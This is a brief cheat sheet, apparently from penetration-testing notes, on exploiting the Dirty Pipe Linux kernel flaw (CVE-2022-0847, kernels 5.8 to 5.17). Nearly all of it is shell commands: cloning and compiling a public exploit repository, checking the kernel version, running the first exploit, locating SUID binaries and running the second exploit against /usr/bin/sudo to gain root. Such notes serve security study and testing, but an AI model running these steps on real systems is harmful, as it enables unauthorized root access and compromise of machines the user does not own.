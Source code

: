 Vulnerability in the Linux kernel
- CVE-2022-0847
- Kernel versions 5.8 - 5.17

**Dirty Pipe
```shell-session
git clone https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits.git
cd CVE-2022-0847-DirtyPipe-Exploits
bash compile.sh
```

**Verify Kernel Version
```shell-session
uname -r
```
**Exploitation 1
```shell-session
./exploit-1
```

**Find SUID Binaries
```shell-session
find / -perm -4000 2>/dev/null
```

**Exploitation
```shell-session
./exploit-2 /usr/bin/sudo
```
